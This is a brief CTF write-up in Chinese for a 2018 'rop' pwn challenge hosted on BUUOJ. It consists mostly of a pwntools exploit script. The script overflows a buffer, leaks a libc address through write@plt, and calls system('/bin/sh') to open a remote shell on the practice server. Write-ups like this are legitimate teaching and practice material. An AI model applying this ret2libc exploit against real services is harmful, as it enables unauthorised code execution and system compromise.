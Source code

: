 ```yaml
---
title: "铁人三项(第五赛区)_2018_rop"
description: ""
date: 2023-04-07T13:19:10+08:00
lastmod: 2023-04-07T13:19:10+08:00
draft: false
images: []
type: docs
weight: 983
toc: true
---
```


## 0x01 分析

![02b5ece601feb1ffefa655ddfd7e7b06](images/02b5ece601feb1ffefa655ddfd7e7b06.png)  

简单的ret2libc题型

## 0x02 Exploit

```python
from pwn import*
from LibcSearcher import*
# context.log_level = 'debug'
# o = process("./pwn")
o = remote("node4.buuoj.cn", 29246)
elf = ELF("./pwn")
write_plt = elf.plt['write']
read_got = elf.got['read']
vuln = elf.sym['vulnerable_function']

# leak libc
payload = b'a'*140 + p32(write_plt) + p32(vuln) + p32(1) + p32(read_got) + p32(4)
o.sendline(payload)
read_addr = u32(o.recv(4))
log.info(hex(read_addr))
libc = LibcSearcher("read", read_addr)
libc_base = read_addr - libc.dump("read")
sys_addr = libc_base + libc.dump("system")
bin_sh = libc_base + libc.dump("str_bin_sh")

# attack
payload = b'a'*140 + p32(sys_addr) + p32(0) + p32(bin_sh)
o.sendline(payload)
o.interactive()

```

![8704f86beabcfb503acb23aa905cff7d](images/8704f86beabcfb503acb23aa905cff7d.png)  

自行调试
